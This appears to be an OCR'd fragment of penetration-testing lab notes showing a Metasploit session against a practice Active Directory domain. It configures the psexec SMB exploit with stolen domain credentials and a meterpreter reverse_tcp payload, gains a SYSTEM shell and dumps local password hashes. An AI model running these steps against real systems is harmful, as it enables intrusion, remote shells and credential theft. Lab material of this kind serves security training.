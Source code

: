  Id Name<br/>
 -- ----<br/>
 0  Automatic<br/>
<br/>
<br/>
msf6 exploit(windows/smb/psexec) &gt; set rhosts 192.168.247.135<br/>
rhosts =&gt; 192.168.247.135<br/>
msf6 exploit(windows/smb/psexec) &gt; set smbdomain marvel.local<br/>
smbdomain =&gt; marvel.local<br/>
msf6 exploit(windows/smb/psexec) &gt; set smbpass Password1<br/>
smbpass =&gt; Password1<br/>
msf6 exploit(windows/smb/psexec) &gt; set smbuser lhowlette<br/>
smbuser =&gt; lhowlette<br/>
msf6 exploit(windows/smb/psexec) &gt; show target<br/>
[-] Invalid parameter &quot;target&quot;, use &quot;show -h&quot; for more information<br/>
msf6 exploit(windows/smb/psexec) &gt; show targets<br/>
<br/>
Exploit targets:<br/>
<br/>
 Id Name<br/>
 -- ----<br/>
 0  Automatic<br/>
 1  PowerShell<br/>
 2  Native upload<br/>
 3  MOF upload<br/>
 4  Command<br/>
<br/>
<br/>
msf6 exploit(windows/smb/psexec) &gt; set target 2<br/>
target =&gt; 2<br/>
msf6 exploit(windows/smb/psexec) &gt; <br/>
<br/>
msf6 exploit(windows/smb/psexec) &gt; set payload windows/x64/meterpreter/reverse_tcp<br/>
payload =&gt; windows/x64/meterpreter/reverse_tcp<br/>
msf6 exploit(windows/smb/psexec) &gt; set lhost eth0<br/>
lhost =&gt; eth0<br/>
msf6 exploit(windows/smb/psexec) &gt; <br/>
<br/>
<br/>
meterpreter &gt; getuid<br/>
Server username: NT AUTHORITY\SYSTEM<br/>
meterpreter &gt; sysinfo<br/>
Computer    : WOLVERINE<br/>
OS       : Windows 10 (10.0 Build 19044).<br/>
Architecture  : x64<br/>
System Language : en_US<br/>
Domain     : MARVEL<br/>
Logged On Users : 7<br/>
Meterpreter   : x64/windows<br/>
meterpreter &gt; hashdump<br/>
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
Logan:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::<br/>
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:43e415a31348a644f60616a676d7554f:::<br/>
meterpreter &gt; Interrupt: use the 'exit' command to quit<br/>
meterpreter &gt; <br/>
<br/>
<br/>
If you want a module and your not sure which to use load and double tap TAB to open available options<br/>
<br/>
meterpreter &gt; load <br/>